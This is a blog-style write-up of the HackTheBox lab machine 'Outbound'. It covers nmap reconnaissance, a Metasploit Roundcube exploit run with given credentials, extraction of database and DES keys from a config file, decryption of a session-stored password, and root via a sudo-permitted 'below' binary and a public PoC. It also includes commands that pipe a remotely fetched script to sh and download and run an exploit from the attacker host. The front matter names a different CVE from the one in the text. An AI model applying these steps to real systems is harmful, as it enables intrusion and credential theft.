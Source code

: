 +++
title = "Outbound [Write-up] - HackTheBox"
date = "2025-08-10T16:46:16+05:30"
author = "Maaroof Khan"
authorTwitter = ""
cover = ""
coverCaption = "Outbound has been Pwned!"
tags = ["HackTheBox", "Writeup", "Linux", "Easy"]
keywords = ["Outbound", "HTB", "Roundcube", "CVE-2023-43770", "Below", "Privilege Escalation"]
description = "A detailed walkthrough of the HackTheBox 'Outbound' machine."
showFullContent = false
readingTime = true
hideComments = false
color = ""
+++

Hello everyone, and welcome to my first-ever write-up!

This box seemed pretty straightforward at first, but it wasn't long before it had me begging for mercy. Let's dive in!

![HackTheBox Task Page](htb_task_page.png)

I booted up the "Outbound" machine, ready to see what this bad boy had to offer. We're handed credentials right from the start (`tyler / LhKL1o9Nm3X2`), which almost certainly means a login portal awaits.

### Initial Reconnaissance

As is tradition with any HackTheBox machine, the first step is always `nmap`.

```bash
nmap -T5 10.10.11.77
```

I ran a `T5` scan for some quick results.

And here’s what we got:

```bash
Starting Nmap 7.95 ( https://nmap.org ) at 2025-08-10 16:54 IST
Nmap scan report for 10.10.11.77
Host is up (0.16s latency).
Not shown: 998 closed tcp ports (reset)
PORT   STATE SERVICE
22/tcp open  ssh
80/tcp open  http

Nmap done: 1 IP address (1 host up) scanned in 4.31 seconds
```

We have a web server on port 80 and SSH on port 22. Seeing SSH usually means we'll be using it later. Now, let's get this box to spill some beans with a more aggressive scan.

```bash
nmap -Pn -p 22,80 -sC -sV 10.10.11.77
```

The output was revealing:

```bash
Starting Nmap 7.95 ( https://nmap.org ) at 2025-08-10 17:00 IST
Nmap scan report for 10.10.11.77
Host is up (0.16s latency).

PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 9.6p1 Ubuntu 3ubuntu13.12 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey:
|   256 0c:4b:d2:76:ab:10:06:92:05:dc:f7:55:94:7f:18:df (ECDSA)
|_  256 2d:6d:4a:4c:ee:2e:11:b6:c8:90:e6:83:e9:df:38:b0 (ED25519)
80/tcp open  http    nginx 1.24.0 (Ubuntu)
|_http-title: Did not follow redirect to http://mail.outbound.htb/
|_http-server-header: nginx/1.24.0 (Ubuntu)
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel
```

The web server redirects to `http://mail.outbound.htb`, so let's add that to our `/etc/hosts` file.

```bash
sudo nano /etc/hosts
```

I added the following line:
`10.10.11.77     outbound.htb mail.outbound.htb`

Time to check out this mailing service.

![Roundcube Login Page](roundcube_login.png)

### Roundcube Exploit

Here it is, the moment we've all been waiting for: a login page! Let's use the credentials we were given. Success! We're in, but Tyler's inbox is bone dry. Guess he isn't too popular.

A quick look at the "About" section reveals the software version.

![Roundcube About Page](roundcube_about.png)

We're dealing with **Roundcube Webmail 1.6.10**. Before diving down a Google rabbit hole for exploits, my first move is always to fire up `metasploit`.

```bash
sudo msfconsole
search roundcube
```

And what do you know, we hit the jackpot! An exploit for our version is available. The exact CVE is `CVE‑2025‑49113`.

![Metasploit Modules](metasploit_exp.png)

Time to exploit (rubs hands).
Used the following steps to run the exploit:
```bash
use 1
set RHOSTS mail.outbound.htb
set LHOST tun0
set USERNAME tyler
set PASSWORD LhKL1o9Nm3X2
run
```

And just like that, we have a meterpreter shell!

### Finding Juicy Details (Post-Exploitation)

My first order of business on a new machine is always to hunt for passwords and config files.

```bash
find /var -name "config" 2>/dev/null
```

This led me to `/var/www/html/roundcube/config`. 

Peeking into this folder gave away the file `config.inc.php` and it contained some spicy details.
Here is a sneak peak:

```php
$config['db_dsnw'] = 'mysql://roundcube:RCDBPass2025@localhost/roundcube';
$config['des_key'] = 'rcmail-!24ByteDESkey*Str';
```

We've got the MySQL password and a DES key. This will definitely come in handy. Let's check into mysql and see what we get.

```bash
mysql -u roundcube -pRCDBPass2025 roundcube
```

Once we are in we can make basic queries (The responses take their sweet time to show up so be patient here)

```sql
use roundcube;
show tables;
select * from users;
select * from session;
```

#### This part in my opinion was the trickiest of all in this box

The `session` table gives us a bunch of base64 encoded session details

Using CyberChef, we can decode this data and find something very interesting.

![CyberChef showing Jacob's credentials](cyberchef-jacob.png)

We found another user, `jacob`, and more importantly, his password! The catch? It's encrypted. But wait, we have that DES key from the config file. After a lot of digging, I confirmed that Roundcube uses Triple DES for session data encryption.

Here's how to decrypt the password:
1. Convert the password from base64 to hex
2. Copy the first 8 bytes (They will be your IV - `Initialization Vector` for decryption)
3. Enter the first 8 bytes into the IV field (keep it hex) in cyberchef **Triple DES Decrypt**, along with the des key (set it to utf-8 first)
4. Paste the rest of the hex into the input part (Except the first 8 bytes we used)
5. Get the password

Here is the decrypted password we get:

![CyberChef decrypting the password](password_decrypt.png)

### Privilege Escalation

Now that we have jacob in our control, let's check this lad's account shall we

```bash
su jacob
# Enter the password
cat /home/jacob/user.txt
```

We've got the user flag!

Now that we are Jacob let's check the home folder

```bash
cd /home/jacob
```

It had a mail folder which had a `INBOX` folder which contained a file `jacob`

```bash
cat jacob
```

Gave us 2 mails,
One contained the ssh credentials for jacob
The other said:

> "We have been experiencing high resource consumption on our main server.
For now we have enabled resource monitoring with Below and have granted you privileges to inspect the the logs.
Please inform us immediately if you notice any irregularities."

This is a massive clue. It sounds like Jacob has special permissions to run a service as root. Time for a proper shell!

```bash
ssh jacob@10.10.11.77
```

Now that we have user.txt and a massive clue from that mail lets check how we can escalate.
Lets use `LinPeas` to find something (`sudo -l` could also reveal information but linpeas might give additional details)

```bash
# On your machine - where linpeas.sh resides
sudo python3 -m http.server 80

# On victim's ssh shell
curl -L <Your-HTB-IP>/linpeas.sh | sh
```

As predicted we got this:

```bash
User jacob may run the following commands on outbound:
    (ALL : ALL) NOPASSWD: /usr/bin/below *, !/usr/bin/below --config*, !/usr/bin/below --debug*, !/usr/bin/below -d*
```

We can run the `below` command as root without a password. A goldmine, if I ever saw one. This part took me the most time, as I was trying to exploit it manually without success.

A quick search online for a `below` exploit leads to `CVE-2025-27591`.

I found a really cool python exploitation script [(Check it out)](https://github.com/BridgerAlderson/CVE-2025-27591-PoC)

I transferred the script to the victim machine and ran it.

```bash
# On your machine
python3 -m http.server 80

# On the victim's machine
wget http://<Your-HTB-IP>/exploit.py
python3 exploit.py
```

And Wham-Bam-Thank-You-Ma'am! We got root!

![HTB PWNED](cover.png)

Now, just head to `/root` and grab your well-earned flag.

Happy Hacking! And see you next week
